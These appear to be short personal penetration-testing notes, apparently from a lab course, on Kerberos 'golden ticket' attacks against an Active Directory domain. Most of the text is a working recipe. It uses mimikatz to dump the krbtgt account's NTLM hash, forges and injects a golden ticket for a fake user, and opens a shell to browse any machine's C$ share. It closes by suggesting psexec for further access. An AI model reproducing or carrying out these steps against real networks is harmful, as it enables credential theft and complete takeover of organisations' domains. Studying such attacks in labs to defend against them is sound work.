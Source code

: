# Golden Ticket Attacks

## What is a "Golden Ticket" ?
- when we compromise the krbtgt(kerberos ticket granting ticket) account -> we own the domain
- we can request access to any resource on the domain
- golden tickets = complete access to every machine

## How to perform golden ticket attacks
- get mimikatz on system
```cmd
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
```
- open Notepad
- copy Domain SID: "Domain : MARVEL / S-1-5-21-3764243235-116258074-2631445384
- copy krbtgt's NTLM hash

### Generate Ticket ( and pass the ticket )
```cmd
kerberos::golden /User:<user(can be fake)> /domain:<real domain> /sid:<domain sid> /krbtgt:<hash> /id:<RID> /ptt
# Example
kerberos::golden /User:fakeUser123 /domain:marlve.local /sid:S-1-5-21-3764243235-116258074-2631445384 /krbtgt:<hash> krbtgt /id:502 /ptt
```
- -ptt = pass the ticket

```cmd
misc::cmd
```
# GOLDEN TICKET HAS BEEN CREATED AND SHELL IS OPEN!

```bash
dir \\<any IP in domain>\c$
```
-> can list every file in any directory of any account in domain
-> DOWNLOAD PSEXEC.py and HAVE FUN